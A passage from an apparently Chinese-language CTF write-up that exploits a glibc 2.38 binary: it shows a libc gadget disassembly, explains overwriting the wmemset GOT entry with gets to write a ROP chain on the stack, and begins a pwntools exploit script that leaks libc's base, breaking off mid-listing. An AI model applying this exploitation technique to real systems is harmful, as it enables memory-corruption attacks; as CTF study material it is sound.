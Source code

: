 ```
.text:00000000000D60A8                 pop     rbx
.text:00000000000D60A9                 pop     rbp
.text:00000000000D60AA                 pop     r12
.text:00000000000D60AC                 pop     r13
.text:00000000000D60AE                 jmp     j_wmemset_0
```

这样rdi就正好和rsp相等了！然后我们可以将`wmemset.got`改为`gets`函数，从而直接在栈上写入ROP gadget。



- 2.38 完整利用代码：

```python
#!/usr/bin/env python3
# coding=utf8

import inspect

from pwn import *

context.log_level = 'debug'

local = 1

cn = process('./vuln-2.38')
libc = ELF("./libc-2.38.so")

def tobytes(x): return x.encode('latin1') if isinstance(x, str) else x
def sd(x): return cn.send(tobytes(x))
def sl(x): return cn.sendline(tobytes(x))
def sa(a, b): return cn.sendafter(tobytes(a), tobytes(b))
def sla(a, b): return cn.sendlineafter(tobytes(a), tobytes(b))
def rv(x=0x1000): return cn.recv(x)
def rl(): return cn.recvline()
def ru(x): return cn.recvuntil(tobytes(x))
def raddr(): return u64(cn.recvuntil(b'\n')[:-1].ljust(8, b'\x00'))
def raddrn(x): return u64(rv(x).ljust(8, b'\x00'))
def interact(): return cn.interactive()
def ss(s): return success(s)


def logsym(val):
    for line in inspect.getframeinfo(inspect.currentframe().f_back)[3]:
        m = re.search(r'\blogsym\s*\(\s*([A-Za-z_][A-Za-z0-9_]*)\s*\)', line)
    if m:
        varname = m.group(1)
        ss(f"{varname} => {hex(val)}")
    else:
        ss(hex(val))


############################################

context.arch = 'amd64'

leak = int(rl(), 16)
logsym(leak)
lbase = leak - libc.sym['printf']
logsym(lbase)
libc.address = lbase

'''
.got.plt:00000000001FE078 off_1FE078      dq offset strncpy       ; DATA XREF: j_strncpy+4↑r
.got.plt:00000000001FE080 off_1FE080      dq offset strlen        ; DATA XREF: j_strlen+4↑r
```